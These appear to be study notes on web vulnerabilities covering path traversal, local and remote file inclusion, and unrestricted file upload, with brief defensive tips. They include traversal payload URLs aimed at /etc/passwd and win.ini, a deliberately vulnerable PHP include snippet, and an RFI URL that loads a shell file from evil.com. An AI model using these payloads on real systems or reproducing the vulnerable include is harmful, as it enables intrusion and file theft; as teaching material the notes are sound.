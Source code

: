 1. Path traversal
2. File Inclusion Vulnerabilities
3. Unrestricted File Upload
***
1. Path traversal
- This attack, also known as the dot-dot-slash
- `http://www.elsfoo.com/getFile?path=../../../etc/passwd` : Linux --> /
- `http://www.elsfoo.com/getFile?path=../../../windows/win.ini` : Windows ->\ , /
- `http://www.elsfoo.com/getFile?path=../../../windows/boot.ini` : Windows
- terminate the current file name. : `%00`, does not work with PHP versions >= 5.3.4
	- `file_read ("/htdocs/website/reports/" user_input + ".pdf");`
- URL encoding, 16-bit Unicode
- Best defensive Techniques
	- Filter any malicious sequences from the input parameters
***
2. File Inclusion Vulnerabilities
- File inclusion vulnerabilities are divided in Remote and Local
	- LFI : include Function
		```
		<?php
	 include("loc/" . $_GET['location']);
		?>```
	- Remote File Inclusion
		- `vuln.php?page=http://evil.com/shell.txt`
		- In this case, shell.txt (containing PHP code)
		- It is important to know that the file included must not have the .php extension, otherwise the code within the included file will run on the attacker machine
		- RFI is possible because the allow_url_include directive is set to On within php.ini. It is good practice to set it to Off.
***
3. Unrestricted File Upload
- For the application to be vulnerable :
	- The file type is not checked against a whitelist of allowed formats
	- The file name and path of the uploaded file is known to the attacker or guessable
	- The folder in which the file is placed allows the execution of server-side scripts
	- Best Defense : A web developer should inspect the uploaded file at two different layers:
		- METADATA (name, extension, size, etc.)
		- ACTUAL CONTENT
		- Enforcing a whitelist (or blacklist)
***